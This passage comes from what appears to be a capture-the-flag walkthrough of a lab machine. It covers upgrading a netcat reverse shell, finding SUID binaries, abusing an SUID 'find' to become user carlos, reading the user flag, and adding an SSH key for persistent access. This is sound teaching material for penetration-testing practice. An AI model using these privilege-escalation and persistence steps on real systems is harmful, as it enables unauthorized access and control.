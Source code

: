 Check your `netcat` listener. You should have a shell!

Let's quickly upgrade to a fully interactive shell for a better experience.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
# Press Ctrl+Z to background the shell
stty raw -echo;fg
# Press Enter
reset
```

Now, who are we?

```bash
hudson@airplane:/opt$ whoami
hudson
```

We're in as `hudson`!

### Step 5: Privilege Escalation - Hudson to Carlos

Let's see if there are any easy wins for privilege escalation. A good first step is to look for SUID binaries.

```bash
hudson@airplane:/home$ find / -type f -perm /4000 2>/dev/null
/usr/bin/find
/usr/bin/sudo
/usr/bin/pkexec
# ... (many others)
```

Well, hello there. `/usr/bin/find` has the SUID bit set. This is a classic misconfiguration. A quick trip to [GTFOBins](https://gtfobins.github.io/gtfobins/find/) shows us exactly how to exploit this.

```bash
# Using the find SUID binary to execute a shell with the owner's permissions (carlos)
hudson@airplane:/tmp$ find . -exec /bin/sh -p \; -quit
# The -p flag with sh tells it not to drop privileges
$ whoami
carlos
```

Just like that, we are now user `carlos`! Let's grab the user flag.

```bash
$ ls -la /home/carlos
-rw-rw-r--  1 carlos carlos   33 Apr 17  2024 user.txt
$ cat /home/carlos/user.txt
*******************************
```

User flag captured! Now for the final boss: root.

_Pro-Tip: Instead of this temporary shell, a more stable approach would be to use this newfound power as `carlos` to add your SSH public key to `/home/carlos/.ssh/authorized_keys` and then log in directly._
